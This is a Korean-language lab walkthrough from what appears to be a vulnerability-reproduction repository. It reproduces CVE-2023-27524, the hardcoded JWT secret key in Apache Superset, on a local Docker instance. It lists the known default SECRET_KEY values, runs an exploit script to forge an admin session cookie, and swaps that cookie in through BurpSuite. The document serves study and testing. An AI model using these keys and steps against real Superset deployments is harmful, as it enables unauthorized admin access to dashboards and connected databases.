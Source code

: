 ## Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.

Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다.
이 애플리케이션은 `SECRET_KEY`세션 쿠키에 서명하는 데 사용되는 기본값과 함께 제공됩니다. 
관리자가 이 기본 키를 변경하지 못하면 공격자는 유효한 세션 쿠키를 위조하고 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 
이를 통해 Superset 대시보드, 연결된 데이터베이스에 대한 무단 액세스가 허용되고 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

- Ubuntu 24.04 환경에서 진행하였습니다.
### 환경 설정

```bash
# git clone --depth 1 [https://github.com/{repositry주소}.git](https://github.com/ggam-yong/ch-vulhub.git)
git clone --depth 1 https://github.com/ggam-yong/ch-vulhub.git
cd ch-vulhub/superset/CVE-2023-27524
```

다음 명령을 실행하여 Apache Superset 2.0.1 서버를 시작합니다
```bash
docker compose up -d
```
---

### 취약점 재생산
![로그인페이지](login.png)

`firefox에서 http://127.0.0.1:8088` 에 접속합니다. 기본 로그인 자격 증명은 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 `SECRET_KEY`.

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h`(버전 < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET`(버전 >= 1.4.1)
- `thisISaSECRET_1234`(배포 템플릿)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY`(선적 서류 비치)
- `TEST_NON_DEV_SECRET`(도커 컴포즈)

---

### 관리자 세션 쿠키 획득

[CVE-2023-27524.py를](https://github.com/ggam-yong/ch-vulhub/blob/main/superset/CVE-2023-27524/CVE-2023-27524.py) 사용하여 관리자 세션쿠키로 위조합니다. 이때 관리자 세션쿠키는 user_id 가 1입니다. 이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크랙하려고 시도합니다.
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://127.0.0.1:8088 --id 1 --validate

![관리자 쿠키](cookie.png)

쿠키 값에 우의 JWT 토큰을 사용하면 `Cookie: eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.Z_...` Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

---

### BurpSuite

우분투 환경에서 BurpSuite와 chrome browser를 설치한 후 다음의 명령어를 통해 BurpSuiteCommunity를 실행해 줍니다. 


```bash
cd ~/BurpSuiteCommunity
./BurpSuiteCommunity
```
![변조전](guest.png)
![변조 후](admin.png)


요청의 Cookie: session 값을 획득한 값으로 위조하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

![성공](backend)






